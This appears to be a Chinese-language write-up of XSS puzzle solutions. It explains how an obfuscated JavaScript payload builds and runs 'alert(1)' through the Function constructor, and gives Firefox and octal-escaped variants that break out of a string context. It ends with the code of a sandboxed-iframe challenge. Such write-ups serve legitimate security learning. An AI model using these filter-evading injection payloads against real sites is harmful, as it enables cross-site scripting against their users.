 首先来看有效的部分
```html
_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()
```
这段代码在console中输入可以执行`alert(1)`，来逐句分析一下
```html
_=!1+URL+!0
```
执行完毕后，`_="falsefunction URL() { [native code] }true"`(强制类型转换后进行字符串的拼接后的结果)，类似的全大写函数还有`CSS() JSON() `，这段代码给变量`_`赋予了一个字符串`"falsefunction URL() { [native code] }true"`，通过`_[num]`的形式我们可以取到这个字符串中num位置的字符。
```html
fill           =>    _[0]+_[10]+_[2]+_[2]
constructor    =>    _[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]
alert          =>    _[1]+_[2]+_[4]+_[38]+_[9]
```
那么简化后的代码为
```html
[]["fill"]["constructor"]("alert(1)")()
```
这段代码就变得易读了，要想理解就需要知道jsfuck的工作原理，查看<a href='https://github.com/aemkei/jsfuck#basics' target='_blank'>github.com/aemkei/jsfuck</a>
对应的给出firefox浏览器下的payload
```html
");_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[42]+_[43]+_[8]+_[9]+_[11]+_[42]](_[1]+_[2]+_[4]+_[42]+_[9]+'(1)')()//
```
原因是对于代码`_=!1+URL+!0`返回的字符串不一样
```html
"falsefunction URL() {
    [native code]
}true"
```
2018-10-12 99字符
八进制
```
"|[]['\160\157\160']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164(1)')()|"
```

<a name="a013"/></a>
### iframe
```javascript
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // https://4i.am/?...raw=... just outputs whatever you pass in.
  //
  // Alerting from 4i.am won't count.

  s = '<script>' + s + '<\/script>';
  tag.src = 'https://4i.am/?:XSS=0&CT=text/html&raw=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.setAttribute('onload', 'youWon && alert(1)');
  return tag.outerHTML;
}
```
